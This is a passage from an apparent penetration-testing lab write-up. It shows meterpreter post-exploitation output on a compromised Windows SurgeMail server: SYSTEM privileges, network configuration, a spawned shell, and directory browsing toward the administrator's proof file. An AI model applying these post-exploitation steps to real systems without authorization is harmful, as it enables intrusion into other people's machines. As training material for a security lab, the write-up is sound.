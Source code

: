 w00t.  Game over ? – Maybe…  What are my privileges ?

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > ipconfig

Software Loopback Interface 1
Hardware MAC: 00:00:00:00:00:00
IP Address  : 127.0.0.1
Netmask     : 255.0.0.0



Intel(R) PRO/1000 MT Network Connection
Hardware MAC: 00:50:56:bc:1c:69
IP Address  : 192.168.6.70
Netmask     : 255.255.255.0


meterpreter > shell
Process 3656 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\surgemail\scripts>
```

Yeah – game over. That’s good enough for me.  Let’s see if we can find the file.

> Usually, offsec will plant a “proof” .txt file on the Desktop of the administrator of the machine.  But since I already had a shell, I decided to just list all txt files and see if I could see a file that looks as if it’s a proof file.

I issued a “dir *.txt /S” and evaluated the output, and I found (as expected) the proof file on the desktop of the administrator.

I then used the shell to grab the secret file from the system :

```
c:\surgemail\scripts>cd /
cd /

c:\>cd users
cd users

c:\Users>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 0CDF-A146

 Directory of c:\Users

05/04/2010  12:10 AM              .
05/04/2010  12:10 AM              ..
05/03/2010  11:05 PM              Administrator
05/04/2010  12:06 AM              devil
05/04/2010  12:08 AM              ftp
07/13/2009  09:08 PM              Public
05/04/2010  12:10 AM              TEMP
               0 File(s)              0 bytes
               7 Dir(s)   2,687,561,728 bytes free

c:\Users>cd Administrator
cdcd Administrator

```